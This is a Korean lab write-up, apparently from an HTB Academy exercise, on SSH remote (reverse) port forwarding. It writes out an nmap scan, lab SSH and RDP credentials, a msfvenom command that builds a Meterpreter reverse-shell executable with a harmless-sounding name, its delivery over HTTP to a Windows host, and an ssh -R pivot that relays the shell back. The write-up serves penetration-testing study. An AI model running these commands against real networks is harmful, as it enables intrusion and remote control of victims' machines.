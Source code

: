 ```yaml
---
title: "Remote(Reverse) Port Forwarding"
date: 2025-09-29
layout: single
author_profile: true
excerpt: "**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다."
toc: true
toc_label: "Remote Port Forwarding"
toc_icon: "network-wired"
toc_sticky: true
tags: [networking, ssh, tunneling, pivoting, reverse]
header:
  teaser: /assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png
  teaser_home_page: true
---
```


**Remote(Reverse) Port Forwarding**은 로컬에서 실행 중인 서비스를 원격 SSH 서버의 특정 포트에 바인딩하여, 원격 네트워크 또는 내부망 호스트가 그 포트를 통해 해당 서비스에 접근할 수 있게 하는 기술이다. 

공격자는 SSH의 `-R` 옵션으로 피벗 호스트에 리스닝 포트를 생성하고, 이를 통해 NAT/방화벽으로 인해 직접 라우팅이 불가능한 환경에서 **역방향 연결(예: 리버스 셸)** 을 중계할 수 있다. 

이 기법은 파일 전송, 원격 명령 실행, Meterpreter 같은 리버스 세션 확보 등 직접 접속이 어려운 내부 자원에 대한 접근을 가능하게 해 자주 활용된다.

---

# Remote(Reverse) Port Forwarding

공격 호스트(`10.10.15.5`)는 **Ubuntu 서버**(`10.129.15.50`, `172.16.5.129`)에 SSH 접속이 가능하며,  
Ubuntu 서버를 통해 내부망 Windows 호스트(`172.16.5.19`)의 RDP 서비스에 접근할 수 있다.

![Remote Port Forwarding Diagram](/assets/network-screenshots/remote-port-forwarding/remote-port-forwarding.png)

그러나 Windows 호스트는 **공격 호스트(10.10.x.x)** 와 직접 라우팅이 불가능하다.  
따라서 Windows에서 **공격 호스트로 직접 Reverse Shell**을 보낼 경우 트래픽이 도달하지 못한다.

- Windows 호스트는 `172.16.5.0/23` 네트워크 안에만 트래픽을 보낼 수 있다.
- 공격자는 `10.129.x.x` (HTB Academy Lab) 네트워크에 있으며, Windows → 공격 호스트 직접 통신이 불가능하다.
- 단순 RDP 세션만으로는 **파일 업로드/다운로드** 또는 **Meterpreter 세션** 확보가 어렵다.

이러한 상황에서는 **공격자 → Ubuntu → Windows** 방향이 아닌  
**Windows → Ubuntu → 공격자** 순으로 트래픽을 **역방향(Reverse)** 으로 전달해야 한다.

---

# 실습

## Portscan

대상 Host(`10.129.243.159`)에 대해 기본 스크립트와 서비스 버전 탐지를 수행하였다.

```bash
$ nmap -sC -sV 10.129.243.159 

Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-29 20:10 EDT
Nmap scan report for 10.129.243.159
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.55 seconds
```

Nmap 스캔 결과 `SSH(22)`, `http(80)` 등 서비스가 확인되었다.

## 동적 포트 포워딩을 이용한 SSH 접속

Dynamic Port Forwarding 관련 절차는 별도 포스트에 있습니다 → [Dynamic Port Forwarding 포스트 보기](../dynamic-port-forwarding).

우선 문제에서 제공한 아이디/비밀번호(`ubuntu:HTB_@cademy_stdnt!`) 를 이용하여 **동적 포트 포워딩**을 이용한 SSH 접속에 시도하였다.

```bash
$ ssh -D 9050 ubuntu@10.129.243.159
```

접속 후, `ifconfig` 명령어를 통하여 내부망 인터페이스를 확인하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/ifconfig.png)

그 결과 내부망 IP 주소 `172.16.5.129` 를 확인할 수 있었다.

## msfvenom Windows Payload

로컬 호스트에서 Windows용 Meterpreter 페이로드를 생성하기 위해 `msfvenom` 명령어를 사용하였다.

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

생성한 파일은 `scp` 명령을 이용해 **SSH 내부망 인터페이스**로 전송하였다.

```bash
scp backupscript.exe ubuntu@10.129.243.159:/home/ubuntu
```

## RDP 연결 && 스크립트 파일 전달

문제에서 제공된 RDP 계정(`victor:pass@123`)을 이용해 **proxychains**를 통해 내부망 RDP에 접속하였다.

```bash
$ proxychains xfreerdp3 /v:172.16.5.19 /u:victor /p:pass@123
```

이후, SSH 세션에서 `python` 내장 웹서버를 실행하여 파일 전송용 HTTP 서비스를 열었다.

```bash
$ python3 -m http.server 9999
```

Windows RDP 세션에서 `wget` 명령을 사용해 `backupscript.exe` 파일을 다운로드하였다.

```powershell
wget http://172.16.5.129:9999/backupscript.exe -o backupscript.exe
```

성공적으로 파일을 다운로드하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-wget.png)

## Remote Port Forwarding

이후, Ubuntu 서버를 중계(pivot) 호스트로 사용하기 위해 `ssh -R` 명령어를 실행하였다.

```bash
$ ssh -R 172.16.5.129:8080:0.0.0.0:8000 ubuntu@10.129.243.159 -vN

# (-v : verbose, -N : no command)
```

명령 실행 후, Metasploit의 `msfconsole`을 실행하여 리버스 연결을 수신할 리스너를 설정하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/msfconsole.png)

이후 RDP 세션으로 돌아가 다운로드한 `backupscript.exe` 파일을 실행하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/rdp-remote-success.png)

잠시 후, Metasploit에서 `meterpreter` 세션이 활성화되었고
`ls` 명령어를 통해 **내부 파일/디렉터리 열람이 가능함을 확인**하였다.

이를 통해 RDP 환경에서 **원격 코드 실행(Remote)** 이 성공했음을 검증할 수 있었다.

## Flag 획득

Desktop으로 이동 후 `flag.txt` 파일 내용을 읽어 플래그를 획득하였다.

![Domain](/assets/network-screenshots/remote-port-forwarding/flag.png)

이로써 **Remote(Reverse) Port Forwarding** 실습을 마무리하였다.


